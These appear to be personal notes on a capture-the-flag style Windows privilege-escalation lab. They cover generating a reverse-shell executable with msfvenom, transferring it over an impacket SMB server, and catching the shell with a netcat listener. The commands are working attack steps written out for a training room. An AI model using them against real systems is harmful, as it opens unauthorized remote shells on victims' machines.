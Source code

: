 On Kali, generate a reverse shell executable (reverse.exe) using msfvenom. Update the LHOST IP address accordingly:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

Transfer the reverse.exe file to the C:\PrivEsc directory on Windows. There are many ways you could do this, however the simplest is to start an SMB server on Kali in the same directory as the file, and then use the standard Windows copy command to transfer the file.

On Kali, in the same directory as reverse.exe:

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

On Windows (update the IP address with your Kali IP):

```
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

Test the reverse shell by setting up a netcat listener on Kali:

```
sudo nc -nvlp 53
```

Then run the reverse.exe executable on Windows and catch the shell:

```
C:\PrivEsc\reverse.exe
```

The reverse.exe executable will be used in many of the tasks in this room, so don't delete it!

Answer the questions below

Generate a reverse shell executable and transfer it to the Windows VM. Check that it works!


![[Pasted image 20240527221307.png]]

